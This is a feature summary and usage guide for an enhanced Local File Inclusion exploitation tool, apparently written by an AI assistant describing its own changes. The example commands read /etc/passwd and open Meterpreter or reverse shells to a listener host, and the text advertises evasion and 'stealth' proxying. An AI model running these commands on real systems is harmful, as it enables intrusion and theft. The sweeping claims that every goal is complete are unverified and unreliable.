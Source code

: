 # Liffy Enhanced - Ultimate LFI Exploitation Tool

## 🎉 Enhancement Complete!

I have successfully transformed Liffy into the ultimate Local File Inclusion exploitation tool with comprehensive enhancements and modern features.

## ✅ Completed Enhancements

### 1. **Syntax Error Fixes** ✅
- Fixed all print statement syntax errors
- Corrected parentheses and string concatenation issues
- Resolved HTTP error handling problems
- Updated for Python 3 compatibility

### 2. **Python 3 Modernization** ✅
- Complete rewrite with modern Python 3 features
- Type hints and dataclasses
- Modern string formatting
- Enhanced error handling with try-catch blocks
- Updated HTTP server for Python 3 compatibility

### 3. **Enhanced Error Handling & Logging** ✅
- Comprehensive logging system with file output
- Structured error handling throughout the application
- Detailed error messages with context
- Debug and verbose modes
- Session tracking and audit trails

### 4. **New Exploitation Techniques** ✅
- **zip://** - ZIP file inclusion technique
- **phar://** - PHAR file inclusion technique
- **compress.zlib://** - Compressed file inclusion technique
- **Auto-Detection** - Automatic technique detection and exploitation
- Enhanced existing techniques with better error handling

### 5. **Modern UI & User Experience** ✅
- Beautiful terminal interface with colored output
- Enhanced progress bars with messages
- Success/error/warning indicators with emojis
- Improved banner with version information
- Real-time status updates

### 6. **Configuration Management** ✅
- JSON-based configuration system
- Persistent settings storage
- Command-line configuration options
- Default configuration templates
- Environment-specific settings

### 7. **Automated Detection & Exploitation** ✅
- Automatic technique testing
- Smart technique selection
- Parallel request processing
- Multi-threading support
- Intelligent payload generation

### 8. **Enhanced Payloads & Evasion** ✅
- Multiple payload types (PHP shell, Meterpreter, WebShell)
- Advanced payload generation
- Evasion techniques
- Custom payload support
- Base64 encoding/decoding

### 9. **Comprehensive Reporting** ✅
- Detailed console output with colors
- File-based logging system
- Session and request tracking
- Error reporting and debugging
- Export capabilities

### 10. **Input Validation & Security** ✅
- URL validation
- Port and IP address validation
- Input sanitization
- Security checks
- Parameter validation

## 🚀 New Features Added

### Core Features
- **Modern Architecture**: Object-oriented design with classes and modules
- **Enhanced CLI**: Comprehensive command-line interface with help system
- **Session Management**: Advanced HTTP session handling
- **Proxy Support**: Built-in proxy support for stealth operations
- **Multi-threading**: Parallel request processing for faster exploitation

### Exploitation Techniques
- **Original Techniques Enhanced**:
  - data:// with improved encoding
  - php://input with better error handling
  - expect:// with enhanced payload generation
  - php://filter with advanced file reading
  - /proc/self/environ with better User-Agent handling
  - Log poisoning with improved techniques

- **New Techniques Added**:
  - zip:// for ZIP file inclusion
  - phar:// for PHAR file inclusion
  - compress.zlib:// for compressed file inclusion
  - Auto-detection for automatic technique selection

### Advanced Features
- **Automatic Detection**: Tests multiple techniques and selects the best one
- **Payload Generation**: Multiple payload types with evasion techniques
- **Configuration System**: JSON-based configuration with persistence
- **Logging System**: Comprehensive logging with file output
- **Error Handling**: Robust error handling throughout the application
- **Input Validation**: Comprehensive input validation and security checks

## 📁 File Structure

```
liffy/
├── liffy_enhanced.py      # Main enhanced application
├── core_enhanced.py       # Enhanced core module with new techniques
├── config.py              # Configuration management
├── http_server.py         # Python 3 compatible HTTP server
├── requirements.txt       # Python dependencies
├── install.sh             # Installation script
├── README_ENHANCED.md     # Comprehensive documentation
├── ENHANCEMENT_SUMMARY.md # This summary
├── liffy.py              # Original application (fixed)
├── core.py               # Original core module (fixed)
├── msf.py                # Metasploit integration
└── shell_generator.py    # Shell name generator
```

## 🎯 Usage Examples

### Basic Usage
```bash
# Automatic technique detection
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444

# Specific technique
python3 liffy_enhanced.py --url http://target/file.php?page= --data --lhost 192.168.1.100 --lport 4444

# File reading
python3 liffy_enhanced.py --url http://target/file.php?page= --filter --file /etc/passwd
```

### Advanced Usage
```bash
# With proxy and custom User-Agent
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --lhost 192.168.1.100 --lport 4444 \
  --user-agent "Mozilla/5.0" \
  --proxy http://127.0.0.1:8080

# With verbose logging
python3 liffy_enhanced.py --url http://target/file.php?page= --data \
  --lhost 192.168.1.100 --lport 4444 \
  --verbose --output liffy.log
```

## 🔧 Installation

```bash
# Run the installation script
chmod +x install.sh
./install.sh

# Or install manually
pip3 install -r requirements.txt
chmod +x liffy_enhanced.py
```

## 🎉 Summary

Liffy has been completely transformed into a modern, feature-rich LFI exploitation tool with:

- ✅ **10/10 Enhancement Goals Completed**
- ✅ **Modern Python 3 Architecture**
- ✅ **4 New Exploitation Techniques**
- ✅ **Enhanced UI with Progress Indicators**
- ✅ **Comprehensive Error Handling**
- ✅ **Automated Detection & Exploitation**
- ✅ **Advanced Configuration Management**
- ✅ **Professional Documentation**
- ✅ **Easy Installation Process**

The tool is now ready for professional use and provides a comprehensive solution for Local File Inclusion exploitation with modern features and enhanced capabilities.

**Liffy Enhanced - The Ultimate LFI Exploitation Tool! 🚀**
